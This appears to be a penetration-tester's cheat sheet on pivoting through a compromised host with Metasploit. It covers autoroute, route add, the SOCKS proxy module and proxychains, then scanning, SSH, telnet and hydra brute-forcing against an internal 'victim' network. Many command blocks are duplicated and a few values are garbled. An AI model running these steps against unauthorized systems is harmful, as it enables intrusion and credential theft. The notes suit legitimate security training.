




Metasploit Dynamic Port Forwarding
Requirements:
• Meterpreter session between attacker and pivot host
• Connectivity to the chosen SOCKS port
1. Use an Exploit against the Pivot machine(Victim1) and gain a meterpreter session(sid)
2. Route all the traffic for victim2_network/netmask
meterpreter> run autoroute -s 10.32.121.0/24
meterpreter> run autoroute -p
meterpreter> run autoroute -p

2.2 ALTERNATIVE:
msf > route add [victim2_network] [netmask] [sid]
msf > route print #to check if the route is been added
msf > route print #to check if the route is been added
explanation of
route add [victim2_network] [netmask] [sid]▪
[victim2_network] → is the network where is victim2▪
netmask → is a 32-bit
"mask" used to define the subnet in the network (example: 255.255.225.0)▪
sid →
meterpreter session running (in this case the sid is of the victim1 machine)With this command we tell metasploit to route all the traffic intended to the network
victim2_network/netmask,
through the meterpreter session sid. In other words, all the traffic to
victim2_network/netmask will be tunneled through Victim 12.3 ALTERNATIVE: Route all the traffic for victim2_network/netmask
WARNING: as you can see can give some problem (mostly with windows) check above 2.1
msf> use post/multi/manage/autoroute
msf> set session [id]
msf> set subnet 10.32.121.0/24
msf> run
msf> route print
msf> set session [id]
msf> set subnet 10.32.121.0/24
msf> run
msf> route print

attention to the output could not work
3. socks_proxy(socks4a) module in msf
socks4a is been removed
msf > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > options
msf auxiliary(server/socks_proxy) > set SRVHOST [attacker_ip_in_network]
msf auxiliary(server/socks_proxy) > set SRVPORT 1080 #bind port 1080 on the VM running MSF
msf auxiliary(server/socks_proxy) > set version 4a # we need to use "socks4" in proxychains.conf
#OR
msf auxiliary(server/socks_proxy) > set version 5 # we need to use "socks5" in proxychains.conf
msf auxiliary(server/socks_proxy) > run
msf auxiliary(server/socks_proxy) > options
msf auxiliary(server/socks_proxy) > set SRVHOST [attacker_ip_in_network]
msf auxiliary(server/socks_proxy) > set SRVPORT 1080 #bind port 1080 on the VM running MSF
msf auxiliary(server/socks_proxy) > set version 4a # we need to use "socks4" in proxychains.conf
#OR
msf auxiliary(server/socks_proxy) > set version 5 # we need to use "socks5" in proxychains.conf
msf auxiliary(server/socks_proxy) > run
4. configure proxychains
Proxychains is a tool that forces any TCP connection made by any given application, to follow through proxy like SOCKS4, SOCKS5, TOR and so on...
We have to configure proxychains to match the host(SRVHOST) the port(SRVPORT) that we choose for our proxy server when we have used the modul
◇ socks4
root@kali:/# echo "socks4 [attacker_ip_in_network] 1080" > /etc/proxychains.conf

◇ socks5

5. Run commands through proxychains
Before the command we have to add proxychains so the command will be forced to run through it.
examples:
root@kali:/#
root@kali:/# proxychains -q nmap -sT -Pn -T5 -n --top-ports 100 10.100.40.107 #use -sT in proxychains, -sS could not work
root@kali:/# proxychains -q nmap -sTV -Pn -T5 -n --top-ports 100 10.100.40.107 #-sTV == -sT + -sV
root@kali:/# proxychains ssh 192.168.1.23
root@kali:/# proxychains telnet 192.168.1.23
root@kali:/# proxychains iceweasel #access to internal website like if we are on victim machine
root@kali:/# proxychains -q hydra -C telnet.txt telnet://10.32.121.23 -V |& tee #with -V (verbose) could be too much verbose
#mostly if we have a lot of combinations of user/password
root@kali:/# proxychains -q nmap -sT -Pn -T5 -n --top-ports 100 10.100.40.107 #use -sT in proxychains, -sS could not work
root@kali:/# proxychains -q nmap -sTV -Pn -T5 -n --top-ports 100 10.100.40.107 #-sTV == -sT + -sV
root@kali:/# proxychains ssh 192.168.1.23
root@kali:/# proxychains telnet 192.168.1.23
root@kali:/# proxychains iceweasel #access to internal website like if we are on victim machine
root@kali:/# proxychains -q hydra -C telnet.txt telnet://10.32.121.23 -V |& tee #with -V (verbose) could be too much verbose
#mostly if we have a lot of combinations of user/password
proxychains could give us a lot of debug information...

to avoid that we could use the quiet mode (-q)
proxychains -q nmap -sT -Pn -n 192.168.1.23 --top-ports 100
ATTENTION: with proxychains use always the options “-sT -Pn” (also with scripts)
• if we see more requests in loop with nmap, is because we have used -sV that need to take more informations!


Bibliography:
• https://unix.stackexchange.com/questions/115897/whats-ssh-port-forwarding-and-whats-the-difference-between-ssh-local-and-remot
• https://zaiste.net/posts/ssh-port-forwarding/
• https://pen-testing.sans.org/resources/papers/gwapt/tunneling-pivoting-web-application-penetration-testing-120229